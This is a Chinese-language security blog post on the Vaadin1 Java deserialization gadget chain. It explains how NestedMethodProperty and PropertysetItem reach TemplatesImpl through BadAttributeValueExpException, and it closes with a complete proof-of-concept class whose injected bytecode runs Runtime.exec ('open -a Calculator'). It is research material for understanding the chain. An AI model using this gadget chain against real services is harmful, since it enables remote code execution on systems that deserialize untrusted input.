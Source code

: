 # Java-Vaadin1

  
  
&lt;!--more--&gt;  
## 0x01 前言  
```xml  
  &lt;dependencies&gt;  
    &lt;dependency&gt;  
      &lt;groupId&gt;com.vaadin&lt;/groupId&gt;  
      &lt;artifactId&gt;vaadin-server&lt;/artifactId&gt;  
      &lt;version&gt;7.7.14&lt;/version&gt;  
    &lt;/dependency&gt;  
  
    &lt;dependency&gt;  
      &lt;groupId&gt;com.vaadin&lt;/groupId&gt;  
      &lt;artifactId&gt;vaadin-shared&lt;/artifactId&gt;  
      &lt;version&gt;7.7.14&lt;/version&gt;  
    &lt;/dependency&gt;  
    &lt;dependency&gt;  
      &lt;groupId&gt;org.javassist&lt;/groupId&gt;  
      &lt;artifactId&gt;javassist&lt;/artifactId&gt;  
      &lt;version&gt;3.29.0-GA&lt;/version&gt;  
    &lt;/dependency&gt;  
  &lt;/dependencies&gt;  
```  
Vaadin 是一个在 Java 后端快速开发 web 应用程序的平台。用 Java 构建可伸缩的 UI，并使用集成的工具、组件和设计系统来更快地迭代、更好地设计和简化开发过程。  
## 0x02 前置知识  
NestedMethodProperty  
`com.vaadin.data.util.NestedMethodProperty`类是一个封装访问属性方法的类。构造方法接收两个参数，一个是对象实例，一个是属性值。初始化时调用 initialize方法获取实例类中的相关信息存放在成员变量中。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170120780.png)
等到调用`NestedMethodProperty`的`getValue`方法时，就会反射调用封装对象指定属性的`getter`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170121719.png)
因此这个类又是可以触发 TemplaesImpl 的利用方式  
PropertysetItem  
触发类`com.vaadin.data.util.PropertysetItem`，这个类用来存储Property属性值，为其映射一个 id 对象。  
数据存放在成员变量 map 中，想要获取相应属性的时，则调用`getItemProperty`方法在 map 中获取。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170125544.png)
映射的 id 对象则存储在成员变量 list 中。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170126054.png)
`PropertysetItem`的`toString`方法，获取全部 id 对象并遍历，使用`getItemProperty`方法获取映射的`Property`属性对象，并调用其`getValue`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411170128112.png)
使用`PropertysetItem`的`toString`方法触发`NestedMethodProperty`的`getValue`方法。  
触发点选择`BadAttributeValueExpException`中的`readObject`方法  
构造`exp`  
```java  
import com.vaadin.data.util.NestedMethodProperty;    
import com.vaadin.data.util.PropertysetItem;    
import javassist.CannotCompileException;    
import javassist.ClassPool;    
import javassist.CtClass;    
import javassist.NotFoundException;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import javax.management.BadAttributeValueExpException;    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.Base64;    
import java.util.UUID;    
    
public class Poc {    
    public static void main(String[] args) throws Exception {    
        byte[] code = getTemplates();    
        byte[][] codes = {code};    
        // TemplatesImpl    
        TemplatesImpl templates = new TemplatesImpl();    
        setFieldValue(templates, &#34;_name&#34;, &#34;useless&#34;);    
        setFieldValue(templates, &#34;_tfactory&#34;, null);    
        setFieldValue(templates, &#34;_bytecodes&#34;, codes);    
        NestedMethodProperty&lt;Object&gt; nestedMethodProperty = new NestedMethodProperty(templates,&#34;outputProperties&#34;);    
        PropertysetItem propertysetItem = new PropertysetItem();    
        propertysetItem.addItemProperty(&#34;outputProperties&#34;, nestedMethodProperty);    
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);    
        setFieldValue(badAttributeValueExpException,&#34;val&#34;,propertysetItem);    
        String payload = serialize(badAttributeValueExpException);    
        unserialize(payload);    
    }    
    
    public static void unserialize(String base) throws IOException, ClassNotFoundException {    
        byte[] result = Base64.getDecoder().decode(base);    
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(result);    
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);    
        objectInputStream.readObject();    
    }    
    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
    public static byte[] getTemplates() throws CannotCompileException, IOException, NotFoundException {    
        ClassPool classPool = ClassPool.getDefault();    
        // 生成一个随机的类名    
        String randomClassName = &#34;Test_&#34; &#43; UUID.randomUUID().toString().replace(&#34;-&#34;, &#34;&#34;);    
        CtClass ctClass = classPool.makeClass(randomClassName);    
        ctClass.setSuperclass(classPool.get(&#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;));    
        String block = &#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;;    
        ctClass.makeClassInitializer().insertBefore(block);    
        return ctClass.toBytecode();    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
}  
```  

---

> Author: N1Rvana  
> URL: http://localhost:1313/java-vaadin1/  

